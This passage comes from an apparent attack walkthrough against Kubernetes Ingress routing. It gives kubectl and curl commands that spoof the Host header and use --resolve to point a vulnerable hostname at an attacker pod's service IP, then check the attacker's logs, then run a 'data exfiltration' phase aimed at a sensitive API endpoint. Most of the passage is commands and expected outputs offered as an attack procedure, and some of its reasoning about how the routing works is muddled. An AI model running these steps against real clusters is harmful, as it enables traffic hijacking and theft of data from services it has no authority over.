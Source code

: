 2.  **Craft a malicious request using `curl` (replace placeholders):**

    ```bash
    INGRESS_ADDRESS=$(kubectl get ingress <ingress-name> -n <namespace> -o jsonpath='{.status.loadBalancer.ingress[0].ip}') # Gets the IP address of the ingress controller
    ATTACKER_SERVICE_NAME=$(kubectl get svc -n attacker attacker-pod -o jsonpath='{.metadata.name}')
    ATTACKER_SERVICE_IP=$(kubectl get svc -n attacker attacker-pod -o jsonpath='{.spec.clusterIP}')

    curl -H "Host: <vulnerable-hostname>" http://$INGRESS_ADDRESS/ -v
    curl -H "Host: <vulnerable-hostname>" http://$INGRESS_ADDRESS/ -v --resolve <vulnerable-hostname>:80:$ATTACKER_SERVICE_IP # Uses --resolve to spoof the DNS
    ```

    *   **Explanation:** This command sends an HTTP request to the Ingress controller, manipulating the `Host` header.  The first curl command relies on DNS to resolve correctly. The second curl command uses `--resolve` to bypass DNS entirely and directly associate the vulnerable hostname with the attacker's service IP. This forces the Ingress controller to route the request to the attacker's backend if the `Host` header is the only factor determining routing.
    *   **Why:** We're trying to force the Ingress controller to route the request to our malicious backend instead of the intended service by spoofing the `Host` header and potentially also spoofing the DNS lookup. Replace `<vulnerable-hostname>` with the hostname observed from the Ingress description.  If the Ingress has a wildcard host like `*.example.com`, try a subdomain like `evil.example.com`.
    *   **Expected Output:**  The HTML content served by the attacker's Nginx server if the attack is successful.  The `-v` option provides verbose output, including the HTTP headers received.
    *   **Look for:** The HTML content of the attacker's service instead of the content expected from the legitimate service. The verbose output (`-v`) will show the server headers, confirming the request was routed to the attacker's nginx server.

3.  **Verify traffic redirection (Check attacker's service logs):**

    ```bash
    kubectl logs -l app=attacker-pod -n attacker
    ```

    *   **Explanation:**  This command retrieves the logs from the attacker's Nginx pod.
    *   **Why:** To confirm that the attacker's service is receiving the redirected traffic.
    *   **Expected Output:**  Log entries showing the HTTP requests that were redirected to the attacker's service.  Look for log lines indicating requests for the expected path.

**Phase 3: Exploitation - Data Exfiltration (Example)**

*This phase assumes the attacker's backend can log requests.*

1.  **Craft a more targeted request:**

    ```bash
    INGRESS_ADDRESS=$(kubectl get ingress <ingress-name> -n <namespace> -o jsonpath='{.status.loadBalancer.ingress[0].ip}')
    ATTACKER_SERVICE_IP=$(kubectl get svc -n attacker attacker-pod -o jsonpath='{.spec.clusterIP}')
    curl -H "Host: <vulnerable-hostname>" http://$INGRESS_ADDRESS/api/sensitive-data -v --resolve <vulnerable-hostname>:80:$ATTACKER_SERVICE_IP
    ```

    *   **Explanation:** This command sends a request to a specific endpoint of the legitimate application that is likely to return sensitive data.  Replace `/api/sensitive-data` with a real endpoint.
    *   **Why:** To demonstrate data exfiltration, we need to target an endpoint that exposes sensitive information.
    *   **Expected Output:** The response from the attacker's service.  It's unlikely to return the expected data, but the request will have been logged.
